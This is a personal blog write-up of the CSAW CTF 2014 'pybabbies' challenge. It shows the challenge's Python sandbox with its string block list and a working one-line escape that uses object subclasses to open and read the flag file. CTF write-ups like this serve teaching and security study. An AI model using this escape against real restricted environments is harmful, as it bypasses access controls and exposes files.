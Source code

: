 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 200 pybabbies
comments: true
tags:
- CTF
- CSAW
- Pwnable
- Python
categories:
- write-ups
date: '2014-09-25 06:32:00 +0000'
---
```


[CSAW CTF 2014](https://ctf.isis.poly.edu/) is the second CTF contest I've attended ( the first one was the [HITCON CTF 2014](http://ctf2014.hitcon.org/dashboard.html) ) . Since this is the first time **I've actually solved something** in the contest, I decide to post my first own writeup .
<!-- more -->

I've solved 4 challenges in the contest : **Trivia 10 -- We don't know either** , **Exploitation 100 -- bo** , **Exploitation 200 -- pybabbies** and **Expoitation 400 -- saturn**. **We don't know either** & **bo** are easy, so I won't post their writeups. This writeup is for the **Exploitation 200 -- pybabbies**.

The challenge gave us a python script call **pyshell.py**. After we take a good look at it, we'll know that this is a self-made python shell.

```python
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

this python shell allow us to send & execute a python command. But unlike the normal one, this python shell banned some strings such as `import`, `os`, `sys`......etc. Moreover, **it delete almost all the reference to an object**, except `raw_input` & `print`.

To put it short, **we can't call any function except** `raw_input` & `print`, **and we can't use** `import`, `os`, `sys`...., **either**. The goal is to print the flag, so we can either use `os.system("cat flag")` or use `f = open("flag", "r").read()` and print it out. But now since it banned us to use those command, we'll have to find a new way to get the flag.

After doing some research on the internet, I found this [link](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/), which lead us to the right direction. Although in script they delete the reference to an object, we can still use `().__class__.__bases__[0].__subclasses__()` to get the object directly. By using the method mentioned in the blog, I successfully get the `file` object, which give me the ability to open a file and read it.

So here is the exploitation:
1.  First, we use `().__class__.__bases__[0].__subclasses__()[40]` as the `file` object to read the flag into a variable
2.  Simply print out the variable to get the flag
    
we'll have to guess the filename of the flag, which is "key", so the actual progress will be like this:

```
Welcome to my Python sandbox! Enter commands below!
>>> a = ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
>>> print(a)
flag{definitely_not_intro_python}

>>>
```


reference: [Escaping Python Sandboxes](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
